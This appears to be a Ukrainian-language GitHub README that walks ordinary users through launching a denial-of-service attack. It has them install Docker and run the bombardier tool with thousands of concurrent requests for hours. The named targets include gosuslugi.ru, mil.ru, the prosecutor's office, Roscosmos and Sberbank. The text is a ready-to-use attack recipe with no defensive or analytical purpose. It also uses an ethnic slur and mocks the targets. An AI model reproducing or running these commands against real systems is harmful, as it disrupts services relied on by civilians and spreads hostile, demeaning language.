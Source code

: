 # Валимо русню РАЗОМ!!! 
## Якщо не можете фізично, то можете інформаційно! Внизу кроки для організації DDoS-атаки з вашого комп'ютера.  

1. Завантажуємо Docker та встановлюємо на свій комп'ютер:  
`Windows`: https://docs.docker.com/desktop/windows/install  
`MacOS`: https://docs.docker.com/desktop/mac/install  
Важливо відкрити після цього програму `Docker`. Якщо після відкриття з'являється помилка з текстом `WSL 2 installation is incomplete` завантажуємо та встановлюємо драйвер тут: https://wslstorestorage.blob.core.windows.net/wslblob/wsl_update_x64.msi  
Після цього повинно працювати. Якщо просить перезавантажити комп'ютер - робимо це.

2. Відкриваємо консоль:  
`Windows`: комбінація клавіш `win + r`. В полі `Відкрити:` пишемо `cmd`. Жмакаємо `Enter`.  
`MacOS`: комбінація клавіш `Command(⌘) + пробіл` (інколи `Ctrl + пробіл`). В поле пошуку вводимо `terminal`. Жмакаємо `Enter`.  
Повинно появитися чорне вікно з мигаючим курсором.

3. В консолі вписуємо наступну команду:
```
docker run --rm -it alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
Інформація по параметрах команди:  
`-c 1000` - скільки буде відбуватися одночасно запитів на вказане посилання. Не потрібно вписувати дуже великі числа. Все залежить від потужностей вашого комп'ютера. Але можете поексперементувати і вказати більше або менше ніж 1000.  
`-d 3600s` - час в секундах, протягом якого будуть відбуватися запити. В команді вказано час на 1 годину, але можна поставити більше. Час вказувати в секундах, після кількості секунд дописати букву `s`.  
Жмакаємо `Enter`. 

4. Насолоджуємся і уявляємо як русня бігає в офісі роскомнадзору і дує на свої сервера, щоб вони не загорілись.

P. S.: дані кроки можна повторювати багато разів для різних сайтів. Просто змінюємо посилання на одне з наступних:  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://scrf.gov.ru  
https://mil.ru  
https://www.roscosmos.ru  
https://www.sberbank.ru

Наприклад:
```
docker run --rm -it alpine/bombardier -c 700 -d 7200s -l https://mil.ru
```
